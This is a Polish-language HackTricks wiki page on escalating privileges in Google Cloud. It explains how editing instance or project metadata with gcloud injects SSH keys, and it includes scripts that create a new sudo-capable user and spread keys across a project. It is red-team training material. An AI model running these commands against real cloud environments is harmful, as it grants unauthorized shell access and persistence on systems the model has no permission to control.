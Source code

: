 # GCP - Dodaj niestandardowe metadane SSH

## GCP - Dodaj niestandardowe metadane SSH

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

### Modyfikacja metadanych <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Modyfikacja metadanych na instancji może prowadzić do **znaczących zagrożeń bezpieczeństwa, jeśli atakujący zdobędzie niezbędne uprawnienia**.

#### **Włączenie kluczy SSH do niestandardowych metadanych**

Na GCP, **systemy Linux** często wykonują skrypty z [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Krytycznym komponentem tego jest [demon kont](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), który jest zaprojektowany do **regularnego sprawdzania** punktu końcowego metadanych instancji w poszukiwaniu **aktualizacji autoryzowanych kluczy publicznych SSH**.

Dlatego, jeśli atakujący może modyfikować niestandardowe metadane, może sprawić, że demon znajdzie nowy klucz publiczny, który zostanie przetworzony i **zintegrowany z lokalnym systemem**. Klucz zostanie dodany do pliku `~/.ssh/authorized_keys` **istniejącego użytkownika lub potencjalnie stworzy nowego użytkownika z uprawnieniami `sudo`**, w zależności od formatu klucza. A atakujący będzie mógł przejąć kontrolę nad hostem.

#### **Dodaj klucz SSH do istniejącego użytkownika z uprawnieniami**

1. **Zbadaj istniejące klucze SSH na instancji:**
*   Wykonaj polecenie, aby opisać instancję i jej metadane, aby zlokalizować istniejące klucze SSH. Odpowiednia sekcja w wynikach będzie pod `metadata`, a konkretnie kluczem `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Zwróć uwagę na format kluczy SSH: nazwa użytkownika poprzedza klucz, oddzielona dwukropkiem.
2. **Przygotuj plik tekstowy dla metadanych klucza SSH:**
* Zapisz szczegóły nazw użytkowników i ich odpowiadających kluczy SSH w pliku tekstowym o nazwie `meta.txt`. To jest istotne dla zachowania istniejących kluczy podczas dodawania nowych.
3. **Wygeneruj nowy klucz SSH dla docelowego użytkownika (`alice` w tym przykładzie):**
*   Użyj polecenia `ssh-keygen`, aby wygenerować nowy klucz SSH, upewniając się, że pole komentarza (`-C`) odpowiada docelowej nazwie użytkownika.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Dodaj nowy klucz publiczny do `meta.txt`, naśladując format znaleziony w metadanych instancji.
4. **Zaktualizuj metadane klucza SSH instancji:**
*   Zastosuj zaktualizowane metadane klucza SSH do instancji, używając polecenia `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Uzyskaj dostęp do instancji za pomocą nowego klucza SSH:**
*   Połącz się z instancją za pomocą SSH, używając nowego klucza, uzyskując dostęp do powłoki w kontekście docelowego użytkownika (`alice` w tym przykładzie).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Utwórz nowego użytkownika z uprawnieniami i dodaj klucz SSH**

Jeśli nie znaleziono interesującego użytkownika, można utworzyć nowego, któremu nadane zostaną uprawnienia `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Klucze SSH na poziomie projektu <a href="#sshing-around" id="sshing-around"></a>

Możliwe jest rozszerzenie zasięgu dostępu SSH do wielu Maszyn Wirtualnych (VM) w środowisku chmurowym poprzez **zastosowanie kluczy SSH na poziomie projektu**. To podejście umożliwia dostęp SSH do każdej instancji w projekcie, która nie zablokowała wyraźnie kluczy SSH na poziomie projektu. Oto podsumowany przewodnik:

1. **Zastosuj klucze SSH na poziomie projektu:**
*   Użyj polecenia `gcloud compute project-info add-metadata`, aby dodać klucze SSH z `meta.txt` do metadanych projektu. Ta akcja zapewnia, że klucze SSH są rozpoznawane we wszystkich VM w projekcie, chyba że VM ma włączoną opcję "Zablokuj klucze SSH na poziomie projektu".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH do instancji za pomocą kluczy na poziomie projektu:**
* Z kluczami SSH na poziomie projektu możesz SSH do dowolnej instancji w projekcie. Instancje, które nie blokują kluczy na poziomie projektu, zaakceptują klucz SSH, przyznając dostęp.
* Bezpośrednią metodą na SSH do instancji jest użycie polecenia `gcloud compute ssh [INSTANCE]`. To polecenie używa twojej bieżącej nazwy użytkownika i kluczy SSH ustawionych na poziomie projektu, aby spróbować uzyskać dostęp.

## Odniesienia

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
